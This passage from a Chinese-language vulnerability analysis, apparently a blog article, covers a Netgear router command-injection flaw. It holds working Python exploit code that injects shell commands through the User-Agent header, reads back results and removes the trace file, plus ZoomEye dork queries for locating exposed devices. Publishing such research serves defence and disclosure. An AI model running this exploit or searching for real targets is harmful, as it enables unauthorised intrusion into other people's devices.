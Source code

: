 ```
payload2 = f'sh -c {cmd2}'

header = {}

try:
    header['User-Agent'] = payload1    # 注入命令并将结果写入到js文件
    res = requests.get(vul_url, headers=header, verify=False,
                       timeout=5, allow_redirects=False, proxies=proxy)
    if res.status_code == 200:
        print('[+] command send success')
        result_file = vul_addr + f'/tmp/{random_str}.js'
        result = requests.get(result_file, timeout=5,
                              verify=False, allow_redirects=False, proxies=proxy) # 读取结果js文件
        print('[+] get result')
        print(result.text)
        print('[+] rm tmp result file')
        header['User-Agent'] = payload2
        res = requests.get(vul_url, headers=header, verify=False,
                           timeout=5, allow_redirects=False, proxies=proxy)    # 删除结果js文件
except Exception as e:
    print(e)
```

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJV0mkOmz0mxJMYDoaL7TxP8TWV0zgTc9uZYhNf84mjyjxRKkKtQ4eC9w/640?wx_fmt=png)

 **小 结** 

这次的命令注入漏洞逻辑是比较简单的，注入点不需要很长的变量依赖分析。通过对于 Netgear 几次命令注入漏洞的分析，心中大概也清楚嵌入式设备中路由器大概是怎么获取用户请求数据，然后如何传递给 CGI 程序进行处理的。

 **使用 ZoomEye 和 Pocsuite3** 

### 漏洞影响面

通过 ZoomEye 网络空间搜索引擎，搜索 ZoomEye dork 数据挖掘语法查看漏洞公网资产影响面。

zoomeye dork 关键词：**"?aj4+fileVer"**

_https://www.zoomeye.org/searchResult?q=%3Faj4%2BfileVer_

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJVzRFx2ib629D5auIItbVtLpQgXp40eicMELzlPuYRPicLmDpOKZd8ibqOhQ/640?wx_fmt=png)

漏洞影响面全球视角可视化

_https://www.zoomeye.org/globalmap/%3Faj4%2BfileVer/all/0_

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJVh11Y6e6Ft0cydIO7OJD3EoQE6lzJn1kWnTyZbbfokuJPb6RwLyibjXQ/640?wx_fmt=png)

### verify 模式

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJVYCz5GibG3AGkGUnKaJT0z99DeGL9etOVjrLV5OPKu5VP4dKuycW0duQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1V8TbxA178dE9IhSA97XJVZg6S4YdWk8GVMcPlcROXODPBuSLAIcSQm5zgHWMMdAHfMDZkdMBlfw/640?wx_fmt=png)
